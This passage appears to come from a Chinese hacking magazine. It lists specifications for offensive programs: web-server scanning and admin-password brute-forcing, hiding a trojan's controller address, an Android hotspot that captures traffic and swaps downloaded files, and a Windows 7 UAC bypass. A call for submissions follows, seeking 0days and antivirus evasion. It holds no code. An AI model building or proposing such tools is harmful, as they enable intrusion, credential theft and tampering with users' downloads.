- 支持 Windows XP/2003/7/2008。

## 7. WEB 服务器批量扫描破解

- 针对目标 IP 参数要求  
  - 10.10.0.0/16  
  - 10.10.3.0/24  
  - 10.10.1.0-10.255.255.255

- 针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：  
  - Tomcat  
  - Weblogic  
  - Jboss  
  - Apache  
  - JOnAS  
  - WebSphere  
  - Lotus Server  
  - IIS(Webdav)  
  - Axis2  
  - Coldfusion  
  - Monkey HTTPD  
  - Nginx

- 针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。

- 针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 8. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 9. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令帐号暴力破解。

要求：

- 能够自动或自定义抓取建站系统后台登录验证码脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 根据抓取提交帐密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的帐号可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破帐密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单帐密；
- 拓展：尽可能地多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及帐密字典可自定义设置等。

## 10. 编写端口扫描器

要求：

- 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 扫描方式采用多线程，并能设置线程数；
- 将功能编写成 dll，导出功能函数；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 尽量多做出错异常处理，以防程序意外崩溃；
- 使用 VC++2008 编译工具编写；
- 支持系统 Windows XP/2003/2008/7。

## 11. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi‑Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 12. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；
- 在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。
- 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
- 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 投稿信箱及编辑联系：投稿信箱：675122680@qq.com、hadefence@gmail.com；编辑 QQ：675122680。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |